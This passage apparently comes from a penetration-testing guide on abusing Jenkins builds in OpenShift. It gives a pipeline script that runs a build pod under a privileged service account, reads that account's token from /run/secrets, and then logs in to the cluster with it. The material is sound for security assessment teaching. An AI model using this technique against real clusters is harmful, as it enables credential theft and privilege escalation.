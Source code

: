 Once you get used to play around with it, use your knowledge on Jenkins and Kubernetes/Openshift to find misconfigurations / abuses.

Ask yourself the following questions:

- Which service account is being used to deploy build pods?
- What roles and permissions does it have? Can it read secrets of the namespace I am currently in?
- Can I further enumerate other build pods?
- From a compromised sa, can I execute commands on the master node/pod?
- Can I further enumerate the cluster to pivot elsewhere?
- Which SCC is applied?

You can find out which oc/kubectl commands to issue [here](../openshift-basic-information.md) and [here](../../kubernetes-security/kubernetes-enumeration.md).

### Possible privesc/pivoting scenarios

Let's assume that during your assessment you found out that all jenkins builds run inside a namespace called _worker-ns_. You figured out that a default serviceaccount called _default-sa_ is mounted on the build pods, however it does not have so many permissions except read access on some resources but you were able to identify an existing service account called _master-sa_.
Let's also assume that you have the oc command installed inside the running build container.

With the below build script you can take control of the _master-sa_ serviceaccount and enumerate further.
```groovy
pipeline { 
    stages {
        stage('Process pipeline') {
            agent {
                kubernetes {
                yaml """
                    spec:
                    	serviceAccount: master-sa
                        containers:
                        - name: evil
                          image: random_image:1.0
                          imagePullPolicy: IfNotPresent
                          command:
                          - sleep
                          args:
                          - 1d
                """
                }
            }
            stages {
                stage('Say hello') {
                    steps {
                    	sh 'token=$(cat /run/secrets/kubernetes.io/serviceaccount/token)'
                        sh 'oc --token=$token whoami'
                    }
                }
            }
        }
    }
}
```
Depending on your access, either you need to continue your attack from the build script or you can directly login as this sa on the running cluster:
```bash
oc login --token=$token --server=https://apiserver.com:port
```
